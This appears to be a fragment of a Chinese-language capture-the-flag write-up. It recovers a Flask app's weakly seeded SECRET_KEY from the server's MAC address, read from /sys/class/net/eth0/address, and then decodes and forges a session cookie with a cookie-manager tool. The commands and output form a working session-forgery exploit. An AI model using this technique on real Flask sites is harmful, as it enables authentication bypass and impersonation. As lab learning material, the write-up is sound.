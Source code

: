 ```python
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

以**uuid**为种进行`random.random()*233`来作为`SECRET_KEY`

读取`/sys/class/net/eth0/address`

```
ba:c7:01:40:48:65
转为十进制
205363882248293
```

利用**python2**来生成密钥

```bash
xlccccc@xl-pc:~/flask-session-cookie-manager-master$ python2
Python 2.7.18 (default, Jul  1 2022, 12:27:04)
[GCC 9.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import re, random, uuid, urllib
>>> from flask import Flask, session, request
>>> app = Flask(__name__)
>>> random.seed(205363882248293)
>>> app.config['SECRET_KEY'] = str(random.random()*233)
>>> print app.config['SECRET_KEY']
134.19035408
```

伪造**session**

```bash
xlccccc@xl-pc:~/flask-session-cookie-manager-master$ python3 flask_session_cookie_manager3.py decode -c "eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Y7U6ZQ.GUlT9ao2Nb5hy5J8u-kFvgv4JY0" -s "134.19035408"
{'username': b'www-data'}
xlccccc@xl-pc:~/flask-session-cookie-manager-master$ python3 flask_session_cookie_manager3.py encode -t "{'username': b'fuck'}" -s "134.19035408"                                                              eyJ1c2VybmFtZSI6eyIgYiI6IlpuVmphdz09In19.Y7U9-w.k_ugK1drBaWwd4Po3Xl3XpgraV4
```

